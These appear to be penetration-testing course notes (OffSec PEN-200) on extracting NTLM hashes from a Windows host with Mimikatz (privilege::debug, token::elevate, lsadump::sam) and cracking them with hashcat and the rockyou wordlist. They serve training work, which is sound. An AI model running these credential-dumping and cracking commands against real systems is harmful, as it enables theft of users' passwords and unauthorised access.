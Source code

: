 ```yaml
---
IP_KALI: 192.168.45.155
---
```

We need to understand that LSASS runs under the SYSTEM user and is therefore even more privileged than a process started as Administrator. Because of this, we can only extract passwords if we are running Mimikatz as Administrator (or higher) and have the _SeDebugPrivilege_[10](https://portal.offsec.com/courses/pen-200-44065/learning/password-attacks-44959/working-with-password-hashes-45019/cracking-ntlm-44965#fn-local_id_34-10) access right enabled.

Dertermine which users exist locally on the system:
```
Get-LocalUser
```

In PS administrator:
```
.\mimikatz.exe
```
```
privilege::debug
```
```
token::elevate
```
```
lsadump::sam
```

Copy the hash (ntlm.hash) to attack machine and crack:
```
hashcat -m 1000 ntlm.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

**Alternatively use crackstation: https://crackstation.net/**